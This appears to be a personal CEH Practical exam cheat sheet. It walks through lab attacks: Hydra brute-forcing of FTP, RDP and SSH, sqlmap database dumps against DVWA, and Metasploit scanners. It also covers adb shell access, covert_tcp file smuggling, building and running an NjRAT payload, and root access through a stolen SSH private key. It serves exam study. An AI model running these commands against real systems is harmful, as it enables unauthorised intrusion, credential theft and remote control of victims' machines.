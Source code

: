 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
1.	**Network Scanning & Vulnerability Assessment**
•	Find Live hosts (nmap /netdiscover)
	Sudo nmap [IP address] – for exam (CEH Practical)
o	Sudo nmap –sC –sV –v –A –p– –O –T4 [IP Address range] – more aggressive deep scanning
o	Sudo nmap –sV –script vuln [IP Address] – finding vulnerabilities in a host (-oX save file)
o	Sudo nmap –sP 192.168.1.*:- when scanning a large network

•	Find open ports & services running on those ports (nmap)
	Sudo nmap –sC –sV –v –p– –T4 [IP Address range]
2.	**Enumeration**
•	ftp port 21 – used to transfer files between computers (file sharing)
o	check IP to see which is running ftp
	nmap –sC –p 21 [IP address]
o	ftp [IP] :- you need to bruteforce the password login credentials using hydra tool
	hydra –L username.txt –P password.txt [IP address] ftp (  the lists of password & usernames are given in the exam)
	login ftp [IP address]
o	enter password and username from the one that you brute forced
o	ftp>ls
o	ftp> get secret.txt (used to download the file into your local machine)
o	root@attacker:~#ls
o	root@attacker:~#cat secret.txt (to view the file contents)

•	SNMP port 161– used to monitor and manage network devices e.g. routers, switches, servers etc.
o	Nmap –sP [IP /24]
o	Nmap –sU [IP Address] (scan for UDP ports on the target machine) 
o	snmp-check [ip address] NB take note of the UDP port to listen to)
o	check NSE scripts online on nmap.org
o	nmap –sU –p 161(UDP port) –script=snmp-processes [IP Address] ( finding running process using nmap
o	msfconsole (start Metasploit to find valid strings)
o	msf5>search snmp
o	msf5>use auxiliary/scanner/snmp/snmp_login
o	msf5 auxiliary(scanner/snmp/snmp_login)> show options
o	msf5 auxiliary(scanner/snmp/snmp_login)>set RHOSTS [IP Address]
o	msf5 auxiliary(scanner/snmp/snmp_login)>exploit
•	SNMP check interfaces
o	nmap –sU –p 161(UDP port) –script=snmp-interfaces [IP Address] ( finding running process using nmap
o	snmp-check [IP address]
•	SMB Enumeration (SMB request services from server programs, it’s a protocol that allows apps on a computer read/write files)
o	Nmap [target IP] (smb running on port 445)
o	Nmap –p 445 --script smb-enum-shares [IP address] (enumerating files) shares files with details permissions
o	Connecting GUI method (smb://[IP] on web)
o	Nmap –p 445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating users)
o	Nmap –p 445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating groups)
o	Nmap –sC –sV –A –T4 –p445 [IP Address] (enumerating security levels)
o	Nmap –p 445 --script smb-enum-services --script-args smbusername=administrator,smbpassword=smbserver_771 [IP address] (enumerating services)
o	
•	Making an RDP session and Enumerate RDP service
o	Nmap [Ip address] port 3333 or 3389 is for RDP
o	Msfconsole
o	msf5> search rdp
o	msf5>use auxiliary/scanner/rdp/rdp_scanner
o	msf5 auxiliary(scanner/rdp/rdp_scanner)> set RHOSTS [target IP]
o	msf5 auxiliary(scanner/rdp/rdp_scanner)>set RPORT 3333
o	msf5 auxiliary(scanner/rdp/rdp_scanner)>exploit (detected rdp on ….. confirmed rdp is running)
o	hydra –L {path} –P{path} rdp://[IP address] –s 3333 (brute force passwords & save them)
o	root@attacker:~# xfreerdp /u:administrator /p:etcect /v:[ip]:3333(create an rdp session) 
•	Enumerate NetBIOS port 137(UDP: TCP)/138(UDP)/139(TCP) facilitates and allows computer to connect over the local network, access files & resources such as printers & files
o	Check ip first by ip a
o	Nmap –sP [IP address]
o	Nmap –sV --script nbstat.nse [IP address]

3.	**Hacking Web Application & Android** 
•	Wpscan
o	Wpscan in Kali Linux Wpscan –h will show you all the commands you can use
o	Wpscan –url [copy url http://192.168.0.1] --enumerate u  (u for users) 
o	Wpscan –url (or just –u for url) [copy url http://192.168.0.1] --enumerate u vp (vp for vulnerable plugins & u for users) 
o	Sudo Wpscan --password-attack xmlrpc –t 20 –U (usernames) –P (password list)  --url http://[IP] --random-user-agent (if necessary)- bruteforce for passwords
•	Sqlmap for sql injections–Using DVWA website
o	Go to command execution
o	Enter an IP address and submit :- [IP] | pwd to see the directory that I am
o	UserID enter 1
o	Open burp Suite
o	Go to terminal in parrot : sqlmap –r req.txt –dbs the file is in desktop
o	Sqlmap –r req.txt –D dvwa ( name of the data base )
o	Sqlmap –r req.txt –D dvwa --tables --columns   ( Details )
o	Sqlmap –r req.txt –D dvwa --dump (contents of the tables)
•	Burp Suite
o	Check on http requests and proxy (use this to save  cookies as req.txt)
•	Android Pentest (ADB) – a tool that bridge the communication between your device and computer ( use windows)
o	‘adb devices’ command will show you all the devices connected
o	adb connect [IP address]:5555 ( just give any port) 
o	adb shell ( you are in the device )
o	hit ls to see where you are in the device
o	cd sdcard/
o	cat secrete.txt
4.	**Traffic Sniffing**
•	Wireshark
Pcap analysis – Filtering packets
o	tcp.flags.syn
o	Follow streams red part is our request and the blue part is the server response
o	To see if there is a txt file – export object got to file, export object of http and save it 
(DOS, DDOS)
5.**	Steganography**
•	SNOW – for hiding and extracting hidden data from a text file
o	Open SNOW.EXE (NB. you have to write in uppercase)–C (compile) –m “this is the secret message” –p ‘’give the password any’’ Secret.txt (this is the secrete file) Hiddensecret.txt (is the file you want to be the output)
o	To extract the hidden file-: SNOW.EXE –C -p “given password any” Hiddensecret.txt and then hit enter.
•	OpenStego – for hiding and extracting hidden data from an image file
o	Open the OpenStego tool
o	There 2 options, Hiding data and extracting the secret
o	Follow options-: they are self-explanatory
o	When extracting data the same. In an exam you can be told to extract a file and you will find a key. Open hashes.com on browser and then retrieve the key
•	Covert – for hiding data in TCP/IP packet headers
o	Download covert_tcp file in parrot
o	Cd Downloads
o	Then ~/Downloads/Covert_tcp $ ls there will be 3 files covert_tcp, covert_tcp.c & secret.txt and then-: rm covert_tcp to remove it in parrot
o	Enter a command: cc –a covert_tcp covert_tcp.c 
o	  ./covert_tcp  –source [IP Addrr e.g. 192.168.1.1] ( source Ip)  –dest [IP Addrr] (destination IP) –source_port 9999 ( set any port) –dest_port 8888 –file secret.txt  -: this is done from source computer
o	./covert_tcp  –source [IP Addrr: 192.168.1.1] ( source Ip)  -source_port 8888 –server –file receive.txt (received file as)
**6.	Cryptography – practice of securing information so that it’s only accessible to authorised users only. The goal is to protect sensitive information**
•	HashMyfiles - calculating and comparing hashes of files
o	Open the tool 
o	Drag and drop the files to the HashMyfiles application
o	The change in the background colour may mean that the data has been tempered with or the data in the files is the same
•	Cryptool – encrypting and decrypting of hex data – by manipulating key length
o	Open the app and open file
o	Go to analysis and then symmetric – RC4, a window pops up change the key length maybe to 16bit depends with the qns
•	BCTextEncoder -  encoding and decoding text in file .hex 
o	Open the app
o	Enter passwords to encode the text to hex format
o	To decrypt the hash go to hashes.com online and paste the hash key
•	Crypto Forge – encrypting and decrypting the files
o	Select file & right click
o	Select encrypt. To decrypt the hash go to hashes.com online and paste the hash key
•	Veracrypt – hiding and encrypting the disk partitions
o	Open app and hit create volume option
o	Create an encrypted file container
o	Hidden volume then normal mode then next & select folder then C:\ then file name NB mouse hover hover
o	Go to  App, select mount to retrieve information of the hidden partition, this is do  
7.	**RAT – Remote Access Trojans (ProRat & NjRAT) **
o	If you try and you are getting a response “no connection” it means maybe you have chosen the wrong machine to target or he port you have selected is the wrong one. Or the server is of different tool and you are using a different tool.
o	Using ProRat you open it using attacker machine using the IP address of the victim machine use the default port
o	Click connect and insert password. The password is provided if ProRat is used but if there is no password it means you use either HTTP RAT or NjRAT and you brute force.
o	Click on search files, copy the location and download the file.
o	You can make use of the File Manager option that is GUI
USING NjRAT
o	Using windows 11 as attacker and windows server as victim
o	Use the same default port and click start
o	Click on builder and provide the IP of the attacker machine on the host 
o	Click build and it will create server.exe file and save it e.g. on desktop
o	Share the file on the share folder (Desktop)then go to the server victim machine
o	Run the .EXE file 
o	Switch back to attacker ,machine and you can see the session has been opened 
o	You can right click on the session and use even RDP 
8.	**Privilege escalation**
o	ssh user1@[IP Addrr] –p(port) hit Y to agree and then enter the password you are provided or use hydra to brute force the password
o	If you hit the command whoami it shows you the user
o	 Sudo –L it shows you which users are there 
o	Go to the desired directory and do ls then it shows you the file, if you hit cat flag.txt you want to retrieve info in the file
o	Sudo –u user2 /bin/bash now you are logged in as user2 then go to the desired directory
o	This is horizontal privilege escalation
Escalate to root user
o	ls la shows all users
o	cd /root (access denied)
o	cd .ssh
o	ls
o	cat id_rsa you get ssh private key an copy 
o	nano id_rsa and then paste the key (in our local machine)
o	chmod 600 id_rsa (give permission to this file)
o	ssh root@[target IP] –p (port) –i  id_rsa
o	ls 
o	cat flag.txt
Nikto- nikto –h http://[IP Address]:80 (you can run on port 80)
